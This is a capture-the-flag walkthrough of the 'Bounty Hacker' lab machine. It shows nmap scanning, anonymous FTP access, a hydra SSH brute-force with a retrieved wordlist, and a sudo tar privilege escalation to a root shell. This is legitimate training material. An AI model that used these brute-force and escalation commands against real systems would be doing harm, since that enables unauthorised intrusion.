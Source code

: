# recon
nmap shows us that there are 3 open ports
- 21/tcp open  ftp
  - ftp-anon: Anonymous FTP login allowed (FTP code 230)
- 22/tcp open  ssh
- 80/tcp open  http
  - Apache/2.4.18 (Ubuntu)
let run gobuster for directory brute forcing.
```
$ gobuster dir -u http://$IP/ -w /usr/share/SecLists/Discovery/Web-Content/big.txt -x .php,.txt,.html -t 54
```
in the meanwhile we waiting for gobuster result we can exaiming FTP port. Note that the FTP port is open for `Anonymous` login. what do it mean? yes, we can log in to FTP using `Anonymous` as username and password is not needed!
```
$ ftp $IP
```
use `ls` to list the file on the ftp. There are 2 files here. To get the file, run: `get <filename>`. Get both file to our kali so we can examing it.

as mention there are 2 files:
1. locks.txt: this file looks like a password/wordlist. We might be able to use it for brute forcing 
2. task.txt: a to do list wrote by *lin*

What we have at this point is username=`lin` as passwords in `locks.txt`. Now you can for get about gobuster... we already got something really juicy here. Let get foot hold on the victim server.

# foothold
now let brute force ssh to get a foot hold on the victim server. We will use hydra to performe ssh brute forcing. If you dont know how hydra works. There is really good room on tryhackme that teaching you how to use hydra. so pls check it out
```console
$ hydra -f -l lin -P locks.txt $IP -t 64 ssh
```
Boom ! we got the password. now ssh to the victim server and go grab the user flag.

# root
we will start with checking what Lin allow to run super user by running `sudo -l`.
```console
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
As you see, we are allow to use run `tar` as root. When you see this, the first think need to do is visit `GTFObins` ([link](https://gtfobins.github.io/)) and search for tar (link [here](https://gtfobins.github.io/gtfobins/tar/)) you can go script kiddez style and copy and paste the code under `#sudo` to gain root or read more about how it works by do more research about it.

anyhow, here is what we do.
```console
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cat /root/root.txt
```